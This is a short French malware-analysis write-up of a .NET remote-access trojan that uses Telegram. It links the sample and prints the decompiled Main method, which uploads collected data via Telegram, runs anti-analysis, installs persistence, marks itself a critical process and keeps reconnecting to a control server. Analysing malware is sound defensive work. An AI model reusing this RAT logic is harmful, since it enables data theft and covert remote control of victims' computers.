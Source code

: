 ```yaml
---
title: "Malware Analysis d'une Virus Télégram"
date: 2022-01-08T12:00:00Z
description: "Voici comment j'ai reverse un malware RAT"
categories: ["malware-analysis"]
tags: ["reverse","virus",".net"]
keywords: ["tuto", "reverse", "dotnet", ".net","rat","malware","virus","remote execution"]
---
```

[//]: <> (Created By Vozec 25/11/2021)
---
## Introduction
Je suis tombé sur ce .exe et j'ai décidé de l'analyser.
Voici le fichier : [ici](./files/Do_Not_Execute)
*Attention à ne pas l'executer !*

## Commencement  
Comme le dernier analyse de malware , j'ai regardé sur Dnspy si le code était obfusqué .
A notre plus grande surprise il ne l'était pas !
Regardons de quoi est composé notre payload :

![All text](./img/dnspy.png)

La Première chose qui saute aux yeux et que c'est un malware !
Regardons la Class ``Client``

```C
public static void Main()
		{
			ServicePointManager.Expect100Continue = true;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			for (int i = 0; i < Convert.ToInt32(Settings.Delay); i++){Thread.Sleep(1000);}
			if (!Settings.InitializeSettings()){Environment.Exit(0);}
			try
			{
				telegram.UploadFile(Program.Save(), false);
				if (!MutexControl.CreateMutex()){Environment.Exit(0);}
				if (Convert.ToBoolean(Settings.Anti)){Anti_Analysis.RunAntiAnalysis();}
				if (Convert.ToBoolean(Settings.Install)){NormalStartup.Install();}
				if (Convert.ToBoolean(Settings.BDOS) && Methods.IsAdmin()){ProcessCritical.Set();}
				Methods.PreventSleep();
			}
			catch{}
			while(true){
				try
				{
					if (!ClientSocket.IsConnected)
					{
						ClientSocket.Reconnect();
						ClientSocket.InitializeClient();
					}
				}catch{}
				Thread.Sleep(5000);
			}
		}
```
